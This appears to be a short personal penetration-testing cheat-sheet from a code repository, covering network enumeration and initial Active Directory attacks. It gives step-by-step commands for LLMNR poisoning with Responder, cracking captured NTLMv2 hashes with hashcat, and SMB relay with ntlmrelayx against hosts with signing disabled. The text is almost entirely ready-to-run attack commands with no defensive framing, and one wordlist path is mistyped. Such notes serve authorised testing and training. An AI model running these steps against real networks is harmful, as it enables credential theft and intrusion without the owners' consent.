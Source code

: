 
# Enumeration
```bash
arp-scan -l  
```
`asd`
```bash
netdiscover -r 192.168.57.0/24
```

```bash
nmap -T4 -p- -sS -A 192.168.57.134
```

# Initial attacks for Active Directory

LLMNR Poisoning=>
![LLMNR](images/image2.png)

How to do=>

1.Open responder:
```bash
responder -I tun0 -dwPv 
```

2.Write your ip as this format to search on File Explorer
```bash 
//attacker_ip
```

3.Responder will give you result,you will crack in this way.
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists  rockyou.txt
```

SMB Relay=>
For this attack works, SMB Signing must be **disabled**.

1.Checking SMB signing:
```bash
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```

2.Open responder:
```bash
responder -I tun0 -dwPv 
```

3.Make configurations for responder tool here, '/etc/responder/Responder.conf'
You need to **disable** (make OFF) HTTP and SMB

4.Set up your relay
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
